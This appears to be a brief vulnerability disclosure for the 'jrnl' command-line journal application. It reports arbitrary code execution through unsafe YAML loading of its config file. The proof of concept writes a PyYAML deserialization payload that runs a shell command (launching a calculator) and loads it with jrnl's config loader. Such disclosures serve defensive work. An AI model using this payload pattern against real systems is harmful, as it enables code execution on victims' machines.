 # Description  

`jrnl` is a simple journal application for the command line., which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install jrnl
```

### Run exploit.py
```
import os
#os.sysem('pip3 install jrnl')
from jrnl import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.load_config('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution

